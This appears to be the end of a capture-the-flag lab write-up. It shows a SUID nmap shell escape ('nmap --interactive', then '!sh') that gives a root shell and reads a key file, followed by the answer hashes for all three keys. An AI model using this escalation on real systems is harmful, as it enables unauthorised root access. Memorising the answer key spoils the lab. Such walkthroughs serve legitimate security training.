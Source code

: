[https://pentestlab.blog/2017/09/25/suid-executables/](https://pentestlab.blog/2017/09/25/suid-executables/)

```
nmap --interactive

nmap> !sh
!sh
# whoami
whoami
root
# cd /root
cd /root
# ls -l
ls -l
total 4
-rw-r--r-- 1 root root  0 Nov 13  2015 firstboot_done
-r-------- 1 root root 33 Nov 13  2015 key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

`04787ddef27c3dee1ee161b21670b4e4`

1. What is key 1?

- `073403c8a58a1f80d943455fb30724b9`

2. What is key 2?

- `822c73956184f694993bede3eb39f959`

3. What is key 3?

- `04787ddef27c3dee1ee161b21670b4e4`
